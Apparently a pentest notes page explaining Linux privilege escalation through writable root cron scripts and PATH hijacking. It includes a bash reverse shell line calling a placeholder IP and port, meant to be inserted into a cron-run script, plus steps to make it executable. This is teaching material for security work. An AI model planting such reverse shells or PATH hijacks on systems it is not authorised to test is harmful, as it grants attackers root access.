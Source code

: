 # Cron Jobs
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. The idea being, if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Each user on the system has their crontab file and can run specific tasks whether they are logged in or not. Any user can read the file keeping system-wide cron jobs under `/etc/crontab`. 
Here we can find every cron job configured by a user. We can then go and check those scripts to see if the can be modified in any way to instead run code that will allow us to escalate. The scripts will have to use the tools available on the target system. Some things to note:
- The command syntax will vary depending on the available tools (maybe we won't be able to use `nc` as it may not support the `-e` option)
- We should always prefer to start reverse shells, as we do not want to compromise the system integrity during a real pentest.

An example of a reverse shell for a .sh file would be something like
```sh
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
NOTE: remember to check if the file can be executed. If not we can use
```sh
chmod +x FILE
```
to make it so it can be ran.

Another case, although similar, is if a old cron job is still set up, in this case the original file could have been removed, if so we can create a new file in the original path so that the new file is executed with the reverse shell

# PATH
If a folder for which a user has write permissions is located in the PATH, we could potentially hijack an application to run a script. PATH in linux is an environmental variable that tells the operating systems where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, linux will start searching in folders defined under PATH.
We can check it with either:
```sh
env
```
or for a more direct result
```sh
echo $PATH
```
Whenever we are looking for a way to escalate using this technique there are some things that we need to keep in mind, as it always depends entirely on the existing configuration of the target system:
- What folders are located under $PATH?
- Does our user have write privileges for any of these folders?
- Can we modify $PATH?
- Is there a script/app that we can start that will be affected by this vulnerability?
